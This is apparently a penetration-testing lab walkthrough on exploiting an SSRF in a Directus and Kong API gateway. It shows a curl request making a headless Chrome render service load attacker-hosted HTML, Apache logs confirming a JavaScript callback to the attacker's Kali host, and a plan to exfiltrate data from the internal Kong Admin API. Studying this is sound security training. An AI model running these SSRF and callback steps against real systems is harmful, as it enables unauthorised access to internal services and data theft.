 Since the application does not return the page loaded with the SSRF vulnerability, we need another way to determine if the browser executes JavaScript. Our JavaScript function uses `fetch()` to make a call back to our Kali host. The `onload` event in the body tag calls our function. After placing this file in our webroot, let's use the SSRF vulnerability to call the render service pointed at this file.

let's use the SSRF vulnerability to call the render service pointed at this file.
```bash
┌──(kali㉿kali)-[~]
└─$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://192.168.45.203/hello.html"}' http://apigateway:8000/files/import
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Content-Length: 102
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"66-OPr7zxcJy7+HqVGdrFe1XpeEIao"
Date: Tue, 29 Jul 2025 16:22:32 GMT
X-Kong-Upstream-Latency: 1402
X-Kong-Proxy-Latency: 1
Via: kong/2.2.1

{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$
```
Since we received a "forbidden" response, the browser should have loaded our HTML page. Let's check our Apache access log for the callback.

```bash
┌──(kali㉿kali)-[/var/www/html]
└─$ tail -f /var/log/apache2/access.log
192.168.217.135 - - [29/Jul/2025:11:55:23 -0400] "GET /render/url HTTP/1.1" 404 493 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.217.135 - - [29/Jul/2025:12:22:31 -0400] "GET /hello.html HTTP/1.1" 200 484 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.217.135 - - [29/Jul/2025:12:22:31 -0400] "GET /itworked HTTP/1.1" 404 492 "http://192.168.45.203/hello.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"


```

We have verified we can execute JavaScript in the Headless Chrome browser.

### Using JavaScript to Exfiltrate Data
The goal is to upgrade a blind SSRF (Server-Side Request Forgery) to a functional SSRF using JavaScript to call the Kong Admin API from within the internal network. The attack leverages the fact that the Headless Chrome browser running inside the network can access internal services on ports not exposed externally, specifically port `8001` on the Kong API Gateway.
The network architecture follows Docker's default bridge network behavior where containers can communicate internally on all ports, but only explicitly published ports are accessible from outside. This explains why port `8000` is accessible externally (published) while port `8001` is only available for internal container communication (exposed but not published).
The JavaScript will execute from the Chrome browser's context, allowing it to make HTTP requests to internal services that would be unreachable from external attackers, effectively turning the blind SSRF into a data exfiltration channel.
